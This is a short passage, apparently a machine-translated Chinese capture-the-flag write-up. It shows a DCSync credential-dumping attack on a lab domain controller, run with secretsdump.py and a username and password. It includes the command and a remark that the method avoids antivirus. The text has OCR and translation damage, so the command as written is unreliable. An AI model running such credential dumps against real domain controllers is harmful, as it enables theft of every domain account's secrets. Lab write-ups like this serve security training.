 # 12)直流同步

# 秘密转储

我更喜欢使用`secretsdump.py`进行 DCSync 攻击，它允许我从我的 Kali box 运行 DCSync 攻击，前提是我可以在 TCP 445 和 135 以及一个高 RPC 端口上与 DC 对话。这避免了与反病毒的冲突，尽管它确实会产生网络流量。

我需要给它一个目标字符串，格式为`[username]:[password]@[ip]`:

[secrets dump . py](http://secretsdump.py/)' SVC _ loan mgr:moneymakestheworld round！@10.10.10.175'

![](img/af039e4369db4e95783f6edd869b36a8.png)
